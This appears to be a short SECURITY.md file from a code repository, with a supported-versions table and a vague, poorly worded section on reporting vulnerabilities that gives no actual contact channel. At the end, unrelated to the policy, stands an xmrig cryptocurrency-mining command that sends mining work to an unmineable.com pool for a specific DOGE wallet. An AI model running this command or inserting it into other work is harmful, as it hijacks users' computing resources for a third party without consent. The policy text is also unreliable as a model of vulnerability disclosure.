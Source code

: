 # Security Policy

## Supported Versions

For this version of the project use version from (1.2).
There have been many updates and bugs that have been discussed.

| Version | Supported          |
| ------- | ------------------ |
| 1.2.x   | :white_check_mark: |
| 1.x     | :x:                |

## Reporting a Vulnerability

If there is a problem you can notify the issue. So that we can solve your problem.
You can also help us or tell us what to do.

./xmrig -o rx.unmineable.com:3333 -u DOGE:DArLeD4nkxX5k9GTa7MDKqAvzspRT4gNqU.Twlin -p x -k -a rx/0
